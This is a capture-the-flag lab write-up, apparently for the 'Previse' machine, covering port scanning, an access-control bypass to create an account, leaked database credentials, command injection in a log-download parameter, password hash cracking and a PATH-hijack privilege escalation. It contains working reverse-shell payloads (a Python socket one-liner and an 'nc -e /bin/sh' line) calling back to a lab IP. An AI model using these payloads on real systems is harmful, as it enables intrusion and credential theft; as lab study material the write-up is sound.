


```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:05 EDT
Nmap scan report for 10.129.116.118
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Foothold

Basic Enumeration with dirbuster brought us to the `nav.php`. We can't create a new account by just pressing `CREATE ACCOUNT` because we just get a redirect to login.php.
However if we intercept the request through Burpsuite we can actually see the `accounts.php`.



So let's create a new account by sending a POST with the body `username=test123&password=test123&confirm=test123` to it like this:
```
POST /accounts.php HTTP/1.1

Host: previse.htb

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://previse.htb/nav.php

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 49


username=test123&password=test123&confirm=test123
```



We can now login to the `Previse File Hosting` with our new account and password: `test123:test123`.

Browsing the webpage we found a `siteBackup.zip` which revealed mysql credentials.

`config.php` from `siteBackup.zip`:
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```
Browsing the webpage further, we found an interesting functionality. We can request logs while sending a delimiter paramter with it.
Since we have a site backup let's have a look at the `logs.php`:

```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>
```

We are especially interested in this line 19:

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```
## User

We have a php exec with user input. We can exploit this by simply sending a semicolon followed by bash commands.
So we intercept the request and change the delim paramter to this:

```
delim=comma;/usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Since we are on the machine now we can make use of the mysql credentials from earlier:
```
$ mysql -u 'root' -h 'localhost' -p
mysql -u 'root' -h 'localhost' -p
Enter password: mySQL_p@ssw0rd!:)


mysql> use previse
mysql> select * from accounts;
select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-08-12 15:30:55 |
+----+----------+------------------------------------+---------------------+
```

Running hashcat on the password from m4lwhere:
```
hashcat -m 500 -a 0 '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' ~/Desktop/rockyou.txt
```
gives us the password:
```
$1$:salt:llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$:salt:llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Thu Aug 12 13:19:32 2021 (4 mins, 24 secs)
Time.Estimated...: Thu Aug 12 13:23:56 2021 (0 secs)
Guess.Base.......: File (/home/kali/Desktop/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    28022 H/s (8.59ms) @ Accel:256 Loops:125 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413760/14344385 (51.68%)
Rejected.........: 0/7413760 (0.00%)
Restore.Point....: 7411712/14344385 (51.67%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidates.#1....: ilovedeshaun -> ilovechloewegg4everandever

Started: Thu Aug 12 13:19:31 2021
Stopped: Thu Aug 12 13:23:58 2021
```
We can use these credentials to login via ssh and read the user flag.
```bash
ssh m4lwhere@previse.htb
ilovecody112235!
```

## Root

```bash
m4lwhere@previse:~$ sudo -l

User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

`sudo -l` gives us an interesting file:
```bash
m4lwhere@previse:/opt/scripts$ cat access_backup.sh 
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Gzip gets called with a relative path so we can manipulate our path like this:
```
export PATH=/home/m4lwhere:$PATH
```
Now we can then just create a new executable file called "gzip" with this content:
```
/bin/bash -c 'nc -e /bin/sh 10.10.14.67 4444'
```
Just run:
```bash
sudo /opt/scripts/access_backup.sh
```
catch it and enjoy.
